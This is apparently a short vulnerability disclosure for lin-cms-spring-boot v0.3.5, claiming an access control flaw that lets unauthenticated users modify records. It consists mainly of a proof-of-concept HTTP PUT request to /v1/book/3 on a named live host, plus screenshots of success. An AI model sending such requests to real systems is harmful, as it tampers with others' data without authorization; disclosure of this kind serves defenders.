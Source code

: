 target:https://github.com/TaleLin/lin-cms-spring-boot    version:v0.3.5

lin-cms-spring-boot v0.3.5 has an incorrect access control vulnerability, which allows attackers to modify system information without authorization

![](https://github.com/tang-0717/cms/blob/main/images/1.png)

Poc:
```
PUT /v1/book/3 HTTP/1.1
Host: face.api.talelin.com
Content-Length: 77
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"id":3,"title":"python111 ","author":"alice","summary":"1123","image":"111"}
```
![](https://github.com/tang-0717/cms/blob/main/images/2.png)
Successed
![](https://github.com/tang-0717/cms/blob/main/images/3.png)

